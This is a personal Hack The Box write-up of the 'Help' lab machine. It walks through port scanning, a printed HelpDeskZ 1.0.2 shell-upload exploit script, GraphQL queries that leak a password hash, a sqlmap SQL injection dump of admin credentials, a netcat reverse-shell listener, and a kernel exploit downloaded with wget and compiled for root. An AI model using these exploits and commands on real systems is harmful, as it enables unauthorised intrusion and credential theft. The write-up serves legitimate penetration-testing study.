

**Start 15:21 28-08-2024**

---
```
10.10.10.121
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -vvvv -p- 10.10.10.121
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 09:25 EDT
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZY4jlvWqpdi8bJPUnSkjWmz92KRwr2G6xCttorHM8Rq2eCEAe1ALqpgU44L3potYUZvaJuEIsBVUSPlsKv+ds8nS7Mva9e9ztlad/fzBlyBpkiYxty+peoIzn4lUNSadPLtYH6khzN2PwEJYtM/b6BLlAAY5mDsSF0Cz3wsPbnu87fNdd7WO0PKsqRtHpokjkJ22uYJoDSAM06D7uBuegMK/sWTVtrsDakb1Tb6H8+D0y6ZQoE7XyHSqD0OABV3ON39GzLBOnob4Gq8aegKBMa3hT/Xx9Iac6t5neiIABnG4UP03gm207oGIFHvlElGUR809Q9qCJ0nZsup4bNqa/
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHINVMyTivG0LmhaVZxiIESQuWxvN2jt87kYiuPY2jyaPBD4DEt8e/1kN/4GMWj1b3FE7e8nxCL4PF/lR9XjEis=
|   256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxDPln3rCQj04xFAKyecXJaANrW3MBZJmbhtL4SuDYX
80/tcp   open  http    syn-ack Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I've found 3 open ports and a `host` name of `help.htb` which I directly add to my `/etc/hosts` list.

I ran both `dirsearch` as well as `gobuster` and found the same results:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://help.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]                                                                          
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]                                                                       
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://help.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -x 400,403,404
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 19964

Output File: /home/kali/reports/http_help.htb/__24-08-28_09-30-16.txt

Target: http://help.htb/

[09:30:16] Starting: 
[09:30:17] 301 -  306B  - /support  ->  http://help.htb/support/
[09:31:18] 301 -  309B  - /javascript  ->  http://help.htb/javascript/

Task Completed
```


### 80/TCP - HTTP

Upon inspection of both endpoints I found that one showed a `HelpDeskZ` page:


I looked it up and found a [GithHub repository](https://github.com/ViktorNova/HelpDeskZ). In the repository I saw a file called `UPGRADING.TXT` which I was curious whether I could find it on the machine.

I headed to the `URL` and found:


It seems that the version running is `1.0.2`, so I decide to check for vulnerabilities online.


I found an exploit for an `Arbitrary File Upload` to the version running on our machine:

```
Steps to reproduce

httplocalhosthelpdeskzv=submit_ticket&action=displayForm

Enter anything in the mandatory fields, attach your phpshell.php, solve the captcha and submit your ticket.

Call this script with the base url of your HelpdeskZ-Installation and the name of the file you uploaded

exploit.py httplocalhosthelpdeskz phpshell.php
```

```python
import hashlib
import time
import sys
import requests
import datetime

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print 'found!'
        print url
        sys.exit(0)

print 'Sorry, I did not find anything'
```

I configure and locate my `php-reverse-shell`:




I head to the following URL:


Here I filled it in with some sample text and uploaded the reverse shell under the name `phpshell.php`. Once it is in the `/uploads` endpoint I can launch my exploit:

```bash
nc -lvnp 1234
```

```bash
┌──(kali㉿kali)-[~]
└─$ python exploit.py http://help.htb/support/ phpshell.php
```

This method kept giving me errors so Instead of pondering about it too much I focussed my attention on port `3000`.


### 3000/TCP - NodeJS

Once I navigated to `port 3000` I was greeted with the following:


Inside the `Headers` tab I found this info:


Just like we found out in our `nmap` scan, the server seems to be running on the `Express` framework. I used Google to find out more about this `Express Query Language` and stumbled upon the following:


It seems to be running a `GraphQL` instance. I never heard of it before so I did my research and found their [official website](https://graphql.org/learn/) among other useful links and blogs.
It can be summed up in:

>`GraphQL` is a query language for your API, and a server-side runtime for executing queries using a type system you define for your data. `GraphQL` isn’t tied to any specific database or storage engine and is instead backed by your existing code and data.

This means we can execute `queries` on here, but how? Apparently you just use the `/graphql` endpoint together with your query:


Let's start querying this server then!
I tried getting the `user` but it seems to be encoded:


I'll try `curl` to fix this issue:

```bash
curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username} }' | jq
```

```bash
┌──(kali㉿kali)-[~]
└─$ curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username} }' | jq
{
  "data": {
    "user": {
      "username": "helpme@helpme.com"
    }
  }
}
```

Well looks like this finally gave us the output we needed! 
I will now try to get the password for this user:

```bash
curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {password} }' | jq
```

```bash
┌──(kali㉿kali)-[~]
└─$ curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {password} }' | jq 
{
  "data": {
    "user": {
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

I now got a hash which I then put into [crackstation](https://crackstation.net/):


Appears to be a simple `md5` hash:

```
helpme
godhelpmeplz
```

Now that I've got a set of creds I can try and log in, I'll try `SSH` right away, but get no luck:

```bash
helpme@help.htb's password: 
helpme@help.htb: Permission denied (publickey,password).
```

Let's try other methods. I instead use the creds to login on the `HelpDeskZ` website:


Once I'm in I start enumerating the website for possible next vectors. I realize that I had been too hasty on focussing on the `Arbitrary File Upload` vulnerability, as there is another one more applicable to us right now:


Clicking on this `exploit` we find the following valuable info:


Following these steps I go to the `Submit Ticket` again and this time upload a random image (or file), I uploaded a random `.png` file.

The exploit wouldn't work correctly no matter how much I modified the exploit file.


## Retrace

I went ahead, took a break, and got back into it since I was not getting any progress.

- I know there is a `SQL Injection` vulnerability
- None of the `exploits` would fire up for me.

Instead I chose to analyse the `request` using `burpsuite` and see if that would work:

### burpsuite
I open up the tickets I have created earlier:


Parallel I have `burp` open in order to analyse the request, I basically right-click the link of the attachment and copy the link:


I then insert it in another `URL` and try to make a request:


In `burp` the following shows up:


Great, I can now go ahead and send this to `Repeater` for further analysis. 
Instead of actually going ahead and brute forcing a bunch of `SQL Injection` scripts I will use `sqlmap` to run it for me. I download the attachment through `burpsuite` and save the `request to file` using `Copy to file`:


Then I can run the following command:

```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -r ticket.request --level 5 --risk 3 -p param[]
```

This gives me a huge output, but the interesting part is all the way down below:

```bash
sqlmap identified the following injection point(s) with a total of 11216 HTTP(s) requests:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 AND 3691=3691

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 AND (SELECT 3876 FROM (SELECT(SLEEP(5)))gwKi)
---
[13:46:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
```

I then re-run the command with `--dump` appended and wait for the output.
From this gigantic output this is the most interesting part:

```bash
| 1  | support@mysite.com | 1547216217 | NULL   | 1       | Enable   | Administrator | d318f44739dced66793b1a603028133a76ae680e (Welcome1) | <blank>  | admin    | Best regards,\r\nAdministrator | a:1:{i:0;s:1:"1";} | 1543429746 | 0
```

We got a new set of creds!

```
admin
Welcome1
```

I tried these creds to no avail unfortunately, seems we need to try out other combinations.
I tried these usernames and in the end only one seemed correct:

```bash
admin
root
helpme
help # This one got me through
```

```bash
┌──(kali㉿kali)-[~]
└─$ ssh help@help.htb
help@help.htb's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Wed Aug 28 10:01:56 2024 from 10.10.14.6
help@help:~$ 
```


## Privilege Escalation

After getting the `user` flag I used the following command to get `OS Info`:

```bash
(cat /proc/version || uname -a ) 2>/dev/null 
```

When I ran this I got the following output:

```bash
help@help:~$ (cat /proc/version || uname -a ) 2>/dev/null 
Linux version 4.4.0-116-generic (buildd@lgw01-amd64-021) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9) ) #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018
```

After looking this version up I found an exploit:


I download the exploit and bring it over to the target machine:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.121 - - [28/Aug/2024 13:54:27] "GET /Downloads/44298.c HTTP/1.1" 200 -
```

```bash
help@help:~$ wget http://10.10.14.6:80/Downloads/44298.c
--2024-08-28 10:54:25--  http://10.10.14.6/Downloads/44298.c
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6021 (5.9K) [text/x-csrc]
Saving to: ‘44298.c’

44298.c            100%[===============>]   5.88K  --.-KB/s    in 0s      

2024-08-28 10:54:25 (486 MB/s) - ‘44298.c’ saved [6021/6021]

help@help:~$ 
```

Since this file is written in `C` we need to compile it using `gcc`:

```bash
gcc -o priv 44298.c
./priv
```

```bash
help@help:~$ gcc -o priv 44298.c
help@help:~$ ./priv
task_struct = ffff88001d387000
uidptr = ffff88003db1d184
spawning root shell
root@help:~# 
```


### root.txt
Then we can `cat` the flag in `/root/root.txt`:

```bash
root@help:~# cat /root/root.txt 
157f2420d5ff83dc51d33f310df170c8
```


---

**Finished 20:00 28-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

---
